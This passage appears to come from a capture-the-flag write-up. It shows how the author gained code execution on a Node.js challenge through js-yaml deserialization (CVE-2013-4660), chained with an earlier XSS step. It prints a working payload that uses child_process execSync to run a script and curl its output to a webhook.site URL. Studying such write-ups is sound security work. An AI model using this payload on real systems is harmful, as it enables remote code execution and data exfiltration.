 Looking back at the `/debug` endpoint in `server.js`, we have already gotten past the first of two hurdles.
Now, our goal is to achieve code execution and retrieve the flag.

Similarly to pyyaml, we can simply google for js-yaml exploits which lead to code execution.

![image](/images/upload_f73b12aca4c064f7f11ce916de084981.png)

Immediately, we see a few links leading to a [deserialization exploit](https://nealpoole.com/blog/2013/06/code-execution-via-yaml-in-js-yaml-nodejs-module/), particularly CVE-2013-4660.

We find that if we put something like 
```yaml
"test: !!js/function > \n  \
function f() { \n    \
console.log(1); \n  \
}();"
```
into js-yaml, we can execute javascript !!

You can figure out how to rce with the above vulnerability, but I'm here to tell you how I did it!

Firstly, I googled "js-yaml ctf", which led to the [first link in the image](https://book.jorianwoltjer.com/languages/yaml).

> ### Tip 
> Instead of googling 'exploits' or 'vulnerability', particularly in a ctf context, you can append 'ctf' to your search query, which often leads to preconfigured paylods which are easy to use !!

![image](/images/upload_44b3e7781e263af5edf9c1aefffdffaa.png)

Then there's this [javascript section](https://book.jorianwoltjer.com/languages/yaml#javascript-js-yaml-less-than-4.0) at the bottom (not to be confused with the Java section).

![image](/images/upload_97f876847ee5f8373e8e6565c57aeef5.png)

By copying the payload part and using it to run the `/proof.sh` file (Dockerfile specifies that the `proof.sh` file shall be moved to `/`) which contains the flag, then send it to a webhook so I can retrieve the flag, I get the code below:

```js=
// Replace this with your own webhook
const webhook = `https://webhook.site/...`;

const input = `toString: !!js/function >
  function () {
      process.mainModule.require('child_process').execSync('curl ${webhook}?$(sh /proof.sh)').toString()
  }`;
```

Now to combine this with the xss payload we did just now, replace 'hii' with a **URLENCODED** of `input`.

At the end, you should get something like this:
```js=
// Replace this with your own webhook
const webhook = `https://webhook.site/...`;

const input = `toString: !!js/function >
  function () {
      process.mainModule.require('child_process').execSync('curl ${webhook}?$(sh /proof.sh)').toString()
  }`;

// Keep in mind that you DO NOT NEED to replace this
// as the challenge instance for the bot is also at
// localhost:3000
const HOST = 'http://localhost:3000';
```